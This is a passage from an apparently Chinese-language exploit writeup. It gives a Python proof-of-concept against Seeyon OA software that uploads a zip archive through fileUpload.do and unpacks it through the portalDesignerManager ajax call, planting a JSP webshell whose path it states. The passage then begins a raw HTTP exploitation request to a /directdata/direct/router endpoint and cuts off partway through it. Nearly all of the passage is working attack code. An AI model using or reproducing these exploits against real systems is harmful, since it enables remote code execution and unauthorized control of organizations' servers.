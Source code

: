         cookies = requests.utils.dict_from_cookiejar(cookies)
        # 上传压缩文件
        aaa=cookies['JSESSIONID']
        print(aaa)
        targeturl = orgurl + 'seeyon/fileUpload.do?method=processUpload'
        files = [('file1', ('11.png', open('1.zip', 'r'), 'image/png'))]
        print()
        headers = {'Cookie':"JSESSIONID=%s"%aaa}
        data = {'callMethod': 'resizeLayout', 'firstSave': "true", 'takeOver':"false", "type": '0',
                'isEncrypt': "0"}
        response = requests.post(url=targeturl,files=files,data=data, headers=headers,proxies=proxy,timeout=60,verify=False)
        if response.text:
            reg = re.findall('fileurls=fileurls\+","\+\'(.+)\'',response.text,re.I)
            print(reg)
            if len(reg)==0:
                exit("匹配失败")
            fileid=reg[0]
            targeturl = orgurl + 'seeyon/ajax.do'
            datestr = time.strftime('%Y-%m-%d')
            post = 'method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%22' + datestr + '%22%2C%22' + fileid + '%22%5D'
            #headers = {'Cookie': cookies}
            headers['Content-Type']="application/x-www-form-urlencoded"
            response = requests.post(targeturl, data=post,headers=headers,proxies=proxy,timeout=60,verify=False)
            print(response.text)
seeyon_new_rce("https://baidu.com/")



shell地址：/seeyon/common/designer/pageLayout/a2345678.jsp
```

**利用方式**

```
POST /directdata/direct/router HTTP/1.1
Host: 192.168.10.6
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=q885n85a5es9i83d26rm102sk3; ys-active_page=s%3A
Content-Type: application/x-www-form-urlencoded
Content-Length: 160
